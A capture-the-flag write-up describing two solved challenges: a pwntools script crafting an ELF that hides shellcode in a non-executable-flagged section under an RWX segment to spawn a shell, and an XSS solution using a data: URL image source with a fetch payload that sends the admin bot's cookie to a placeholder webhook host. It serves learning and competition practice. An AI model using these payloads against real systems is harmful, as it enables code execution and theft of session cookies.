




# Background Information

Another CTF with the :goat:s at Cosmic Bit Flips! 

5th overall and 1st in student division :heart:! 

OMG a $250 dollar prize :money_mouth_face:!!!

## Binary Exploitation

### Extremely Lame Filters 1

> why weren't you at ELF practice?!
>
> nc 20.84.72.194 5002
>
> Thank you to unvariant for his help.

We are provided a `fairy.py` and `elf.py`. `elf.py` is basically just a generic elf parser that will read in our elf and then execute it.

```py
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` gets input, which most likely is our elf file data, and then performs a check to see if any section of the elf has the `EXECINSTR` flag. If it does, it raises and exception and exits.

We can bypass this by making the segment of that memory executable, but leave the section .text where our shellcode that contains the memory has no permissions.

```python
#!/usr/bin/env python3
from pwn import *
import base64

# Create minimal shellcode to execute /bin/sh
shellcode = asm(shellcraft.amd64.linux.sh(), arch='amd64')

# ELF file constants
EHDR_SIZE = 64
PHDR_SIZE = 56
SHDR_SIZE = 64

# File offset for shellcode
SHELLCODE_OFFSET = EHDR_SIZE + PHDR_SIZE

# Virtual memory address for loading
VADDR_BASE = 0x400000

# Calculate entry point
ENTRY_POINT = VADDR_BASE + SHELLCODE_OFFSET

# Create ELF header
e_ident = b'\x7fELF' + p8(2) + p8(1) + p8(1) + b'\x00' * 9
ehdr = e_ident
ehdr += p16(2)        # e_type: ET_EXEC
ehdr += p16(0x3e)     # e_machine: EM_X86_64
ehdr += p32(1)        # e_version
ehdr += p64(ENTRY_POINT)  # e_entry: Entry point
ehdr += p64(EHDR_SIZE)    # e_phoff: Program header offset
ehdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode))  # e_shoff: Section header offset
ehdr += p32(0)        # e_flags
ehdr += p16(EHDR_SIZE)    # e_ehsize: ELF header size
ehdr += p16(PHDR_SIZE)    # e_phentsize: Program header entry size
ehdr += p16(1)        # e_phnum: Number of program headers
ehdr += p16(SHDR_SIZE)    # e_shentsize: Section header entry size
ehdr += p16(3)        # e_shnum: Number of section headers (null, .text and .shstrtab)
ehdr += p16(2)        # e_shstrndx: Section name string table index

# Create program header (segment) for the executable code
# PT_LOAD segment with RWX permissions
phdr = p32(1)         # p_type: PT_LOAD
phdr += p32(7)        # p_flags: PF_R | PF_W | PF_X (read, write, execute)
phdr += p64(0)        # p_offset: File offset
phdr += p64(VADDR_BASE)  # p_vaddr: Virtual address
phdr += p64(VADDR_BASE)  # p_paddr: Physical address
phdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE) + 24)  # p_filesz: File size
phdr += p64(EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE) + 24)  # p_memsz: Memory size
phdr += p64(0x1000)   # p_align: Alignment

# String table for section names
strtab = b"\x00.text\x00.shstrtab\x00"
strtab_offset = EHDR_SIZE + PHDR_SIZE + len(shellcode) + (3 * SHDR_SIZE)

# Create section headers
# Null section header
shdr_null = p32(0)    # sh_name: No name
shdr_null += p32(0)   # sh_type: SHT_NULL
shdr_null += p64(0)   # sh_flags: No flags
shdr_null += p64(0)   # sh_addr: No address
shdr_null += p64(0)   # sh_offset: No offset
shdr_null += p64(0)   # sh_size: No size
shdr_null += p32(0)   # sh_link: No link
shdr_null += p32(0)   # sh_info: No info
shdr_null += p64(0)   # sh_addralign: No alignment
shdr_null += p64(0)   # sh_entsize: No entry size

# .text section (contains shellcode) - NOT marked as executable
shdr_text = p32(1)    # sh_name: .text
shdr_text += p32(1)   # sh_type: SHT_PROGBITS
shdr_text += p64(2)   # sh_flags: SHF_ALLOC (no SHF_EXECINSTR)
shdr_text += p64(VADDR_BASE + SHELLCODE_OFFSET)  # sh_addr: Virtual address
shdr_text += p64(SHELLCODE_OFFSET)  # sh_offset: File offset
shdr_text += p64(len(shellcode))  # sh_size: Section size
shdr_text += p32(0)   # sh_link: No link
shdr_text += p32(0)   # sh_info: No info
shdr_text += p64(16)  # sh_addralign: 16-byte alignment
shdr_text += p64(0)   # sh_entsize: No entry size

# .shstrtab section (contains section names)
shdr_shstrtab = p32(9)  # sh_name: .shstrtab
shdr_shstrtab += p32(3)  # sh_type: SHT_STRTAB
shdr_shstrtab += p64(0)  # sh_flags: No flags
shdr_shstrtab += p64(0)  # sh_addr: No address
shdr_shstrtab += p64(strtab_offset)  # sh_offset: File offset
shdr_shstrtab += p64(len(strtab))  # sh_size: Section size
shdr_shstrtab += p32(0)  # sh_link: No link
shdr_shstrtab += p32(0)  # sh_info: No info
shdr_shstrtab += p64(1)  # sh_addralign: 1-byte alignment
shdr_shstrtab += p64(0)  # sh_entsize: No entry size

# Combine everything
elf_file = ehdr + phdr + shellcode + shdr_null + shdr_text + shdr_shstrtab + strtab

# Base64 encode the ELF file for input to fairy.py
encoded = base64.b64encode(elf_file)
print(encoded.decode())
```

Running it, we get shell and flag!

`squ1rrel{you_3x3c'd_me_:(}`

## Web Exploitation

### portrait

> It's like DeviantArt, but with a report button to keep it less Deviant. Reporting a gallery will make the admin bot visit it.
>
> http://52.188.82.43:8070/

Ok so first off there was kinda an unintended that made this chall sooo much easier. But it got taken down and patched...

Let's just check out some functionality + goals

In the bot:

```js
const { chromium, firefox, webkit } = require('playwright');
const fs = require('fs');
const path = require('path');

const CONFIG = {
    APPNAME: process.env['APPNAME'] || "Admin",
    APPURL: process.env['APPURL'] || "http://172.17.0.1",
    APPURLREGEX: process.env['APPURLREGEX'] || "^.*$",
    APPFLAG: process.env['APPFLAG'] || "dev{flag}",
    APPLIMITTIME: Number(process.env['APPLIMITTIME'] || "60000"),
    APPLIMIT: Number(process.env['APPLIMIT'] || "5"),
    APPEXTENSIONS: (() => {
        const extDir = path.join(__dirname, 'extensions');
        const dir = [];
        fs.readdirSync(extDir).forEach(file => {
            if (fs.lstatSync(path.join(extDir, file)).isDirectory()) {
                dir.push(path.join(extDir, file));
            }
        });
        return dir.join(',');
    })(),
    APPBROWSER: process.env['BROWSER'] || 'chromium'
};

console.table(CONFIG);

function sleep(s) {
    return new Promise((resolve) => setTimeout(resolve, s));
}

const browserArgs = {
    headless: (() => {
        const is_x11_exists = fs.existsSync('/tmp/.X11-unix');
        if (process.env['DISPLAY'] !== undefined && is_x11_exists) {
            return false;
        }
        return true;
    })(),
    args: [
        '--disable-dev-shm-usage',
        '--disable-gpu',
        '--no-gpu',
        '--disable-default-apps',
        '--disable-translate',
        '--disable-device-discovery-notifications',
        '--disable-software-rasterizer',
        '--disable-xss-auditor',
        ...(() => {
            if (CONFIG.APPEXTENSIONS === "") return [];
            return [
                `--disable-extensions-except=${CONFIG.APPEXTENSIONS}`,
                `--load-extension=${CONFIG.APPEXTENSIONS}`
            ];
        })(),
    ],
    ignoreHTTPSErrors: true
};

/** @type {import('playwright').Browser} */
let initBrowser = null;

async function getContext(){
    /** @type {import('playwright').BrowserContext} */
    let context = null;
    if (CONFIG.APPEXTENSIONS === "") {
        if (initBrowser === null) {
            initBrowser = await (CONFIG.APPBROWSER === 'firefox' ? firefox.launch(browserArgs) : chromium.launch(browserArgs));
        }
        context = await initBrowser.newContext();
    } else {
        context = await (CONFIG.APPBROWSER === 'firefox' ? firefox.launch({browserArgs}) : chromium.launch(browserArgs)).newContext();
    }
    return context
}

console.log("Bot started...");

module.exports = {
    name: CONFIG.APPNAME,
    urlRegex: CONFIG.APPURLREGEX,
    rateLimit: {
        windowMs: CONFIG.APPLIMITTIME,
        limit: CONFIG.APPLIMIT
    },
    bot: async (urlToVisit) => {
        const context = await getContext()
        try {
            const page = await context.newPage();
            await context.addCookies([{
                name: "flag",
                httpOnly: false,
                value: CONFIG.APPFLAG,
                url: CONFIG.APPURL
            }]);

            console.log(`bot visiting ${urlToVisit}`);
            await page.goto(urlToVisit, {
                waitUntil: 'load',
                timeout: 10 * 1000
            });
            await sleep(15000);

            console.log("browser close...");
            return true;
        } catch (e) {
            console.error(e);
            return false;
        } finally {
            if (CONFIG.APPEXTENSIONS !== "") {
                await context.browser().close();
            } else {
                await context.close();
            }
        }
    }
};
```

We see xss protections be disabled as well as the flag being set as the admin cookie. So this is an xss problem, where we have to steal the admin cookie by having it view a malicious portrait that executes xss that remotely sends the cookie to a webhook.

In terms of the website, we can register and login as a user, so let's just use some random name and login.


There's a portrait adding functionality as well as a report functionality.



We can add an image link and a title to add a portrait to our gallery



Ok. Enough with just the testing... where can we find a bug?? The provided server code index.js just provides login and gallery provision functionality but no actual bug... let's check how our portrait is rendered...

```html
<script>
    $(document).ready(function () {
        const username = new URLSearchParams(window.location.search).get("username");
        $.ajax({
            url: "/api/portraits/" + username,
            type: "GET",
            success: function (data) {
                data.forEach((portrait) => {
                    const col = $("<div>").addClass("col-md-4 mb-4");
                    const card = $("<div>").addClass("card shadow-sm");
                    const img = $("").addClass("card-img-top").attr("src", portrait.source).attr("alt", portrait.name);
                    const cardBody = $("<div>").addClass("card-body text-center");
                    const title = $("<h5>").addClass("card-title").text(portrait.name);

                    img.on("error", (e) => {
                        $.get(e.currentTarget.src).fail((response) => {
                            if (response.status === 403) {
                                $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                            } else {
                                $(e.target).attr(
                                    "src",
                                    "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg"
                                );
                            }
                        });
                    });

                    cardBody.append(title);
                    card.append(img).append(cardBody);
                    col.append(card);
                    $("#portraitsContainer").append(col);
                });
            },
        });

        $("#addPortraitForm").submit(function (event) {
            const token = localStorage.getItem("token");
            event.preventDefault();
            const title = $("#portraitTitle").val();
            const source = $("#portraitSource").val();

            $.ajax({
                url: "/api/portraits",
                type: "POST",
                dataType: "json",
                headers: {
                    "Content-Type": "application/json",
                    Authorization: "Bearer " + token,
                },
                data: JSON.stringify({ name: title, source: source }),
                success: function () {
                    console.log("posted");
                    location.reload();
                },
            });
        });

        $(".btn-outline-light").click(function () {
            localStorage.removeItem("token");
            window.location.href = "/";
        });

        $(".btn-danger").click(function () {
            window.location.href = "/report";
        });
    });
</script>
```

Ok, let's zoom in on how portraits are created on the frontend:

```
const col = $("<div>").addClass("col-md-4 mb-4");
                    const card = $("<div>").addClass("card shadow-sm");
                    const img = $("").addClass("card-img-top").attr("src", portrait.source).attr("alt", portrait.name);
                    const cardBody = $("<div>").addClass("card-body text-center");
                    const title = $("<h5>").addClass("card-title").text(portrait.name);

                    img.on("error", (e) => {
                        $.get(e.currentTarget.src).fail((response) => {
                            if (response.status === 403) {
                                $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                            } else {
                                $(e.target).attr(
                                    "src",
                                    "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg"
                                );
                            }
                        });

                    });

                    cardBody.append(title);
                    card.append(img).append(cardBody);
                    col.append(card);
                    $("#portraitsContainer").append(col);
```

So our link (portrait.source) and title are added as an attribute, but portrait.name is rendered as text in title (exploit b4 it was patched). So the only thing we can really attack is portrait.source... however, if the img throws an error, it will try to get the image link directly, but if not, it replaces it with its own custom image link. We don't want that... so what can we do??

Well if we just do `data:text...` as the img src, it successfully passes these checks, and we can use this as `data:text/javascript,alert(1)` see that javascript is executed!



Ok, let's now adjust this payload to `data:text/javascript,fetch('YOUR-WEBHOOK-SITE.com'+document.cookie)` and place it into portrait src. 

Report your gallery to admin using the link: `http://52.188.82.43:8070/gallery?username=YOUR_USERNAME` And... we successfully get the flag!



Flag: `squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`